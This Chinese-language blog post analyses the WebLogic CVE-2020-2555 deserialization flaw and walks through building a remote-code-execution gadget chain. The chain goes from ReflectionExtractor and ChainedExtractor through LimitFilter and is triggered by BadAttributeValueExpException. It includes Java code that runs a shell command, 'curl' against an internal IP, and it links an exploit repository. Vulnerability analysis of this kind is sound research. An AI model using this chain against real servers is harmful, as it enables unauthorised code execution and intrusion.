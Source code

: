 ```yaml
---
title: "Weblogic CVE-2020-2555 反序列化RCE EXP构造"
date: 2020-03-09T18:26:22+08:00
draft: false
tags:
- 反序列化
- Weblogic
- Java
- 代码审计
series:
- Weblogic
categories:
- 代码审计
---
```


Weblogic 简直是个无底洞.
<!--more-->

2020.03.06 早上4点，看到了清水川崎师傅推送了Weblogic CVE-2020-2555的通告，在推特上搜了一波，发现有详细的分析文章，遂有此文。

## 漏洞分析
个人研究，没钱买补丁，这里借用[Zero Day](https://www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server)的图。

![image](https://y4er.com/img/uploads/20200310118799.png)

补丁中将`LimitFilter`类的`toString()`方法中的`extract()`方法调用全部移除，而我们需要知道在[CommonsCollections5](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java)中可以利用``BadAttributeValueExpException``来调用任意类的`toString()`方法。

接着来看下没打补丁之前`LimitFilter`类的`toString()`方法。
```java
public String toString() {
    StringBuilder sb = new StringBuilder("LimitFilter: (");
    sb.append(this.m_filter).append(" [pageSize=").append(this.m_cPageSize).append(", pageNum=").append(this.m_nPage);
    if (this.m_comparator instanceof ValueExtractor) {
        ValueExtractor extractor = (ValueExtractor)this.m_comparator;
        sb.append(", top=").append(extractor.extract(this.m_oAnchorTop)).append(", bottom=").append(extractor.extract(this.m_oAnchorBottom));
    } else if (this.m_comparator != null) {
        sb.append(", comparator=").append(this.m_comparator);
    }

    sb.append("])");
    return sb.toString();
}
```
`toString()`中会将`this.m_oAnchorTop`和`this.m_oAnchorBottom`作为参数传入`ValueExtractor.extract()`，补丁移除了`extractor.extract()`操作，跟进`extract()`看下，发现`extract()`只是一个抽象方法，并没有实现，那说明`extract()`在`ValueExtractor`的子类中可以利用。因为是反序列化，所以我们只需要在`ValueExtractor`子类中找到实现了`Serializable`或者`ExternalizableLite`反序列化接口并且有`extract()`的方法。最终在`com.tangosol.util.extractor.ReflectionExtractor#extract()`找到了反射任意方法调用。
```java
public E extract(T oTarget) {
    if (oTarget == null) {
        return null;
    } else {
        Class clz = oTarget.getClass();

        try {
            Method method = this.m_methodPrev;
            if (method == null || method.getDeclaringClass() != clz) {
                this.m_methodPrev = method = ClassHelper.findMethod(clz, this.getMethodName(), ClassHelper.getClassArray(this.m_aoParam), false);
            }

            return method.invoke(oTarget, this.m_aoParam);
        } catch (NullPointerException var4) {
            throw new RuntimeException(this.suggestExtractFailureCause(clz));
        } catch (Exception var5) {
            throw ensureRuntimeException(var5, clz.getName() + this + '(' + oTarget + ')');
        }
    }
}
```
到现在为止我们可以传入一个`Runtime.getRuntime()`的`oTarget`，将`this.m_methodPrev`赋值为exec，然后`this.m_aoParam`就是我们的命令参数，就可以RCE了。而对于反序列化而言，我们需要继续构建对象，让他自己执行`Runtime.getRuntime()`，这里很像cc链中的`InvokerTransformer.transform()`，那有没有像cc链中的`ChainedTransformer`类呢。遂找到了`com.tangosol.util.extractor.ChainedExtractor#extract()`

```java
@JsonbCreator
public ChainedExtractor(@JsonbProperty("extractors") ValueExtractor[] aExtractor) {
    super(aExtractor);
    this.m_nTarget = this.computeTarget();
}
public E extract(Object oTarget) {
    ValueExtractor[] aExtractor = this.getExtractors();
    int i = 0;

    for(int c = aExtractor.length; i < c && oTarget != null; ++i) {
        oTarget = aExtractor[i].extract(oTarget);
    }

    return oTarget;
}
```
和cc5的构造很像，我们一步一步构造下
```java
// Runtime.class.getRuntime()
ReflectionExtractor extractor1 = new ReflectionExtractor(
    "getMethod",
    new Object[]{"getRuntime", new Class[0]}

);

// get invoke() to execute exec()
ReflectionExtractor extractor2 = new ReflectionExtractor(
    "invoke",
    new Object[]{null, new Object[0]}

);

// invoke("exec","calc")
ReflectionExtractor extractor3 = new ReflectionExtractor(
    "exec",
    new Object[]{new String[]{"/bin/bash", "-c", "curl http://172.16.1.1/success"}}
);
```
首先先构造三个`ReflectionExtractor`对象来调用反射拿到我们想要的，然后把他放到`ReflectionExtractor`数组中，将数组通过构造函数赋值给`ChainedExtractor`。
```java
ReflectionExtractor[] extractors = {
    extractor1,
    extractor2,
    extractor3,
};

ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);
```
那到目前为止，只要反序列化执行了`chainedExtractor.extract()`就可以造成rce。而前文所说，`toString()`中是执行了`extract()`的，所以我们将`chainedExtractor`通过反射赋值给`limitFilter`对象。然后通过`BadAttributeValueExpException`触发`limitFilter`对象的`toString()`，进而触发`extract()`一步一步调用`method.invoke()`，继而通过反射拿到`Runtime.getRuntime().exec("")`，达成RCE。

## 坑
1. `coherence.jar`要使用和目标版本一致的，不然会有`serialVersionUID`不一致的问题。
2. `BadAttributeValueExpException`对jdk的版本有要求。具体看[这里](https://github.com/JetBrains/jdk8u_jdk/commit/af2361ee2878302012214299036b3a8b4ed36974#diff-f89b1641c408b60efe29ee513b3d22ffR70)

## 漏洞利用

https://github.com/Y4er/CVE-2020-2555

![](https://y4er.com/img/uploads/20200310119395.gif)

## 参考
1. https://www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server
2. https://github.com/JetBrains/jdk8u_jdk/commit/af2361ee2878302012214299036b3a8b4ed36974#diff-f89b1641c408b60efe29ee513b3d22ffR76
3. https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**